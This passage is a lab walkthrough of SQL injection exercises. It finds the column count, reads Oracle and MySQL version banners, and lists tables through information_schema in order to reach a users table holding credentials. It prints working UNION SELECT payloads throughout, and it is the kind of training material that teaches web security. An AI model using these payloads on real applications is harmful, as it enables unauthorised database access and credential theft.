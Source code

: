 > **so we can confirm the number of columns with this Payload: `'+UNION+SELECT+NULL,NULL+FROM+dual--` and we have 2 columns here**

![](https://i.ibb.co/G39jWcN/Pasted-image-20210521025636.png)

* **Let's check which column contain a text.**

> **column 1 contain a text data.**

![](https://i.ibb.co/qk10b7M/Pasted-image-20210521025803.png)


> **column 2 contain a text data.**

![](https://i.ibb.co/KK8Rtv4/Pasted-image-20210521025903.png)

* **let's Retrieve the databse version**.

*there is more payloads at Pentestermonkey cheat sheet.*

![](https://i.ibb.co/W53Y5Pd/Pasted-image-20210521030130.png)

> **`'+UNION+SELECT+BANNER,+'ahmed'+FROM+v$version--`**

![](https://i.ibb.co/SR3NfW1/Pasted-image-20210521030342.png)

#### Lab B: SQL injection attack, querying the database type and version on MySQL and Microsoft.

* **`To solve the Lab Make the database retrieve the string: '8.0.25'` **

* **There is 2 columns and we can confirm that with this Payload:`'UNION+SELECT+NULL,NULL#`**

![](https://i.ibb.co/w78yTsT/Pasted-image-20210521031210.png)

> **and we can get the database version with this Payload:`'UNION+SELECT+@@version,'xdev05'#` **

![](https://i.ibb.co/6BFnV2f/Pasted-image-20210521031428.png)



#### Lab C: SQL injection attack, listing the database contents on non-Oracle databases.

> **The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.**
> **To solve the lab, log in as the `administrator` user.**

*There is 2 columns in this database*

> **we need to list the tables now and we will use this Payload:`'+UNION+SELECT+table_name,'xdev05'+FROM+information_schema.tables--`**

![](https://i.ibb.co/rxsL467/Pasted-image-20210521033852.png)

*there is a delicious table called `users_sjindk`*
